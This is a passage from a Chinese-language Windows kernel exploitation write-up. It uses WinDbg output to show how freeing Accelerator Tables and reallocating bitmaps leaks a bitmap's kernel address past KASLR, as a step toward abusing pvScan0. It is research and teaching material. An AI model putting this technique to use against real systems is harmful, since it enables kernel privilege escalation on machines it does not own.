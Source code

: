 可以看到，对应位置存放的GDI对象也释放掉了，再次通过Create申请Accelerator Table。 

```
0033:00007ff6`956112eb ff152f1f0000    call    qword ptr [00007ff6`95613220]
kd&gt; p//返回值eax
0033:00007ff6`956112f1 0fb7c8          movzx   ecx,ax
kd&gt; r rax
rax=00000000001800b9
kd&gt; p
0033:00007ff6`956112f4 488d1449        lea     rdx,[rcx+rcx*2]
kd&gt; p
0033:00007ff6`956112f8 488bc8          mov     rcx,rax
kd&gt; r rdx//计算获得handle，和上一次申请的handle值一样
rdx=000000000000022b
kd&gt; dd 11e0000+22b*8//查看pkernelAddress
00000000`011e1158  81be7000 ffffbad3
kd&gt; dd ffffbad381be7000 l90//对应位置存放的值，+0x0位置就是phead
                            //GdiSharedHandleTable被fix，可以用这个方法
ffffbad3`81be7000  001800b9 00000000 00000000 00000000
ffffbad3`81be7010  00000000 00000000 000002bc 00000000
```

 句柄虽然改变但是对应索引位置在shared info handle entry的值仍然是相同的，这样，再次在相同位置申请bitmap，首先释放，来看下pkernelAddress的值：

```
kd&gt; p
0033:00007ff6`95611311 ff15111f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`95611317 33c9            xor     ecx,ecx
kd&gt; dd ffffbad381be7000//查看GDI对象的内容也被释放
ffffbad3`81be7000  ???????? ???????? ???????? ????????
ffffbad3`81be7010  ???????? ???????? ???????? ????????
ffffbad3`81be7020  ???????? ???????? ???????? ????????
```

指向的空间也被释放了，随后通过CreateBitmap申请bitmap，大小同样是700，来占用Accelerator制造的稳定内存空洞。调用CreateBitmap之后占用了内存空洞。这样，我们直接找到ffffbad381be7000这个GDI对象。

```
kd&gt; p//调用CreateBitmap创建Bitmap
0033:00007ff6`95611345 ff15dd1c0000    call    qword ptr [00007ff6`95613028]
kd&gt; p//创建成功返回
0033:00007ff6`9561134b 488906          mov     qword ptr [rsi],rax
kd&gt; dd ffffbad381be7000//查看原来Accelerator Table的内核地址位置的值
ffffbad3`81be7000  96050bd0 ffffffff 00000000 00000000
```

可以看到，我们成功获得了Bitmap的pkernelAddress，就是0xffffffff96050bd0，这样，我们就成功在KASLR和fix GdiSharedHandleTable下，完成了bitmap pkernelAddress的获取。

**<br>**

**SetBitmap/GetBtimap和pvScan0**

利用gSharedInfo获取aheList，从而得到Accelerator Table在gshareInfo中的GDI对象从而获得内核地址，利用Accelerator Table制造稳定的内存空洞，最后绕过KASLR和获取Bitmap的pkernelAddress的目的就是获得pvScan0这个结构，这个是Bitmap之所以成为data attack的核心。
